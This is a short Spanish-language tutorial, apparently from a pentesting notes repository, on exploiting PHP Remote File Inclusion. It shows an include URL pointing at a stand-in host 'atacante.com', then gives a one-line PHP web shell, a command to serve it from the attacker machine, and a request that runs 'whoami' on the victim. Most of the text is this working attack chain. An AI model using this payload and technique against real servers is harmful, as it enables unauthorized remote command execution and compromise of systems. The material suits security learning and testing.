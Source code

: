 # RFI - Remote File Inclusion

## ¿Que es?

**Remote File Inclusión** es un tipo de **LFI** que permite conectarse a aplicaciones externas. Un ejemplo sería:

```
http://victima.com/index.php?page=http://atacante.com/index.php
```

Para incluir un archivo remoto en PHP, las opciones allow_url_fopen (habilitada de forma predeterminada) y allow_url_include deben estar activadas en la configuración del servidor php de la máquina victima.


## Remote File Inclusion (RFI) a Remote Code Execution (RCE)

La forma es relativamente sencilla. Nos creamos un payload php:

```bash
echo "<?php system($_GET['cmd']); ?>" > prueba.php
```

Ahora levantamos un servicio http en la maquina atacante:

```bash
python3 -m http.server 8888
```


Y podemos ejecutar comandos:

```
http://victima.com/index.php?page=http://atacante.com/prueba.php&cmd=whoami
```

